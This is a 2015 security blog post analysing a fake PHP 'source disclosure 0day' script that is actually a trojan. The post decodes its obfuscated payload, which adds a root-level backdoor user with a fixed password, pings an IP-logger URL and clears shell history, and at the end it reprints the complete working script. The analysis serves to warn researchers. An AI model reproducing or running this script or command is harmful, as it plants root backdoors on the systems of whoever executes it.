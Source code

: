 ```yaml
---
layout: post
title:  "PHP fake 0day"
subtitle: "Having fun with a false exploit"
date:   2015-08-07 23:34:01
category: itsec
---
```


Today [@sh1bumi](https://twitter.com/Sh1bumi) of [@MalwareMustDie](https://twitter.com/MalwareMustDie) found a interesting **PHP** script. At a first look at seemed like a **0day** for websites which are running PHP. "This cannot be, another 0day" we thought, so we analysed the script.
(Script is at the end of the post)

When running it it does that:

        [1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!

A 0day PHP exploit script has to be run as root? What? Okay, okay. Let's run as root:

```php
                  ____.----.
        ____.----'          \
        \                    \
         \                    \
          \                    \
           \          ____.----'`--.__
            \___.----'          |     `--.____
           /`-._                |       __.-' \
          /     `-._            ___.---'       \
         /          `-.____.---'                \
        /            / | \                       \
       /            /  |  \                   _.--'
       `-.         /   |   \            __.--'
          `-._    /    |    \     __.--'     |
            | `-./     |     \_.-'           |
            |          |                     |   0DAY
            |          |                     |   EXPLOIT
            |          |                     |   UNBOXED
            |          |                     |
            |          |                     |  -ANONYMOUS-
            |          |                     |
     _______|          |                     |_______________
            `-.        |                  _.-'
               `-.     |           __..--'
                  `-.  |      __.-'
                     `-|__.--'
     # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
     # Google Dork: .php
     # Date: 02/09/2015
     # Exploit Author: Leaked by Anonymous
     # Vendor Homepage: http://php.net/
     # Software Link: http://php.net/downloads.php
     # Version: All versions
     # Tested on: Windows, Linux
     # CVE: 0day (No CVE)
     # Usage: php 0day.php <website> <filename>[0m
```

Aha, so this is a 0day and we just have to run it against any website. No hint what the script actually should do to that remote website. So let's run it:

```bash
        $: sudo php 0day.php http://localhost localhost
        sh: 1: history: not found
        Source of http://localhost saved to localhost
```

The script wrote the file *localhost*, when looking at the contents it shows us that:

```html
        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
        this is just a test
        </body>
        </html>
```

Okay, it just saved the output of the website to a file, the website had this script:

```php
        <html>
        <header>
        <title>Test</title>
        </header>
        <body>
                <?php echo "this is just a test"; ?>
        </body>
        </html>
`​``

I added **PHP** code to it in case it does some magic to it (remember, the Google Dork is *.php*).
Now I am a bit frustaded, no cool kiddo magic? No server bashing?
Let's dig deeper!

Variable *$header* is just the fancy ASCII stuff at the beginning, so let's look at:

```php
    $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
```

*var_dump($bytes)* gives me the way how the encoded string will be processed, so let's add an *echo* at the right place:

```php
        
	array (size=4)
          0 => string 'passthru' (length=8)
          1 => string 'base64_decode' (length=13)
          2 => string 'gzuncompress' (length=12)
          3 => string 'base64_decode' (length=13)

        $bytes = array("passthru", "base64_decode");
    @array_push($bytes, "gzuncompress", "base64_decode");
    var_dump($bytes);
    @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
    echo $bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF')));
```

Which gives me:

```bash
        useradd -ou 0 -g 0 dd0s > /dev/null 2>&1;echo dd0s:genny1995 | chpasswd 2>&1;curl --silent http://iplogger.org/1z7H3 ;history -c
```

Hu, that is no remote exploit. That adds silently a user with password and **ID 0**. Yes, **0**. **0 is root**. So this user might handled with root privileges. Also it curls an URL, this is just there to log IP accessing it, so the crooks just wait until IP's are arriving and then open SSH connections as user dd0s with password genny1995. Curl just recieves a blank GIF image:

        GIF89a^A^@^A^@�^@^@^@^@^@^@^@^@!�^D^A^@^@^@^@,^@^@^@^@^A^@^A^@^@^B^BD^A^@;

Okay, as we see, this is some kind of a honeytrap. Kiddies, wannabe hackers and researchers might think they found a new cool exploit, run this script as root (as it requests) and get owned. So the crooks just login to that user with an ID of 0.
To delete that user run:

```bash
        userdel -f dd0s
```

You will get this warning:

```bash
        userdel: user dd0s is currently used by process 1
```

That is because it has the same id as root.

We learn: be aware when you research, you might get aimed as a researcher. And to the kiddos: I am laughing at you when you think you found another script to easily own other systems with simple commands.

**Malware must die!**

**Thanks to sh1bumi!**

And to the crooks which are spreading that script: we are right hunting you. Prepare your butt!

![](https://i.imgur.com/ABDOMID.png)


----------

Script:

```php
        <?php
        /*
        # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
        # Google Dork: .php
        # Date: 02/09/2015
        # Exploit Author: Leaked by Anonymous
        # Vendor Homepage: http://php.net/
        # Software Link: http://php.net/downloads.php
        # Version: All versions
        # Tested on: Windows, Linux
        # CVE: 0day (No CVE)
        # Credits: Anonymous Hacker
        */
        error_reporting(0);
        if (!defined('STDIN')) {
            die("Run through command line skiddy!");
        }
        if (posix_getuid() != '0') {
            exit("[1;33mScript Replied:[0m Run as [1;32m[4mroot[0m user!
        ");
        }
        $header =
        gzuncompress(base64_decode("eJyllEEKgzAQRfdewY07VyZtXXZl0UWhNYVWUCrEC3iDHL6TRM1MDIh1FiLJ+/N/zGD8PV/zfIySVUkolkGxaLWUOqxfdvt1D7y9ub8NYMJlGSCilOQEfSCoMk8LU5wPsOb7qsWHQRecgk+NqGZynA2RgDtosOaMJvMVHC9zSBL8MFjiKXT4kEYbp7MGspCI+sBEJAmeuCMbN/N9egSaV0WuQWkJTxYc7oWRg+tVTxF69YBYz+xlPJVFFwfGd0+Pqn09xP1ztE1T30Rblf+12e06mWZFLeruKZp3dsRY2trGJS1ihoYpoNa37v9hZgXGYZC8kSO0WqggYzBlh/EHmvLOew=="));
        function duplicate_source($website, $file) {
            $bytes = array("passthru", "base64_decode");
            @array_push($bytes, "gzuncompress", "base64_decode");
            @$bytes[0]($bytes[1]($bytes[2]($bytes[3]('eJw1yrsOgjAYQOFXgiIkDg4NxlJDQRG5dORvUqAFScAWfHoZdDrD+USVaBguiod4abynZHv5hi0lmWIRk7cOG04KFCPfbYiVrD8MLF90jVrzMwFHxbsZ1ZrmyqWRlfuzdZV8BLr/fS+q60xDZwGkZ176DiWtIyIcxNtxArIajoSGzjcwgGHVy3ucmUxRO4GXGRiVjEt2+gKxYTqF'))));
            (file_put_contents($file, file_get_contents($website)) ? print ("
        [1;33m# Script Replied:[0m Source of [1;33m$website[0m has been saved to
        [1;33m$file[0m
        ") : exit("     [1;33mScript Replied:[0m [31mExploit failed[0m
         for [1;33m$website[0m"));
        }
        if ($argc != 3) {
            exit($header . "


             # Exploit Title: Source Disclosure 2015 0day - All versions, All Browsers
             # Google Dork: .php
             # Date: 02/09/2015
             # Exploit Author: Leaked by Anonymous
             # Vendor Homepage: http://php.net/
             # Software Link: http://php.net/downloads.php
             # Version: All versions
             # Tested on: Windows, Linux
             # CVE: 0day (No CVE)

             # Usage: php $argv[0] <website> <filename>[0m

        ");
        }
        duplicate_source($argv[1], $argv[2]);
        ?>
```